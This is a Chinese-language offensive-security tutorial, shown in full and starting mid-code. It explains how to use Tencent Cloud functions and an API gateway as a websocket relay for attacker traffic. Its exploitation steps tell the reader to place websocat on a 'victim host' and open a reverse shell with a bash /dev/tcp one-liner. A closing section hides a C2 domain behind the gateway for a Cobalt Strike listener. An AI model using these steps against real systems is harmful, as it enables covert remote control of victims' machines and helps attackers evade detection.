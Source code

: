 ```python
    delete_connectionID(connectionID)
    return event
```

2. 进入 [API 网关配置](https://console.cloud.tencent.com/apigateway/service)，新建如下配置服务

![](https://files.mdnice.com/user/23371/17038dab-c5ae-403c-927b-50fc538e1556.png)

3. 新建 API，前端类型选择 WS，其余默认，进入下一步
4. 开启设置注册函数、清理函数。后端类型，函数，后端超时时间分别配置为如下：

![](https://files.mdnice.com/user/23371/33cb442e-34c1-4528-a967-e15ca210092f.png)

5. 点击立即完成，发布服务
6. 点击生成的 api，进入信息展示页面获取如下信息，将推送地址填入文件中的 `push_back_host` 变量。

![](https://files.mdnice.com/user/23371/9393b1bb-be22-4b7e-afd7-252e4b3520f7.jpg)

7. 修改 transmission.py 中的 `PASSWORD` 变量，该变量将用于客户端连接 ws 后将连接认证为用户。
8. 分别复制三个文件的内容到对应的云函数中并部署。


## 具体利用步骤：

### 5.1 上传/远程下载websocat工具到受害主机

### 5.2 受害主机执行工具转发端口 ``` websocat -E --text tcp-l:127.0.0.1:12345 ws://API网关地址 ```

### 5.3 反弹shell到本地端口 ``` bash -i >& /dev/tcp/127.0.0.1/12345 0>&1 ```

### 5.4 攻击者连接 ws://API网关地址 ,通过云函数进行消息中转

# C2域名隐藏

1. 进行API网管添加：https://console.cloud.tencent.com/apigateway/service?rid=1

![](https://files.mdnice.com/user/23371/dfad00f6-0370-49bd-ad6c-911ff952d6b4.png)

2. 自定义API名称，点击下一步

![](https://files.mdnice.com/user/23371/5fe587b7-967d-4cab-8806-c8257aa90092.png)

3. 点击下一步，进行后台配置选择后台为公网URL/IP

![](https://files.mdnice.com/user/23371/93a5865e-0bca-417c-8857-902b74401e5c.png)

4. CS监听器配置

![](https://files.mdnice.com/user/23371/0498dc31-c25e-484f-a271-abdc424673f0.png)

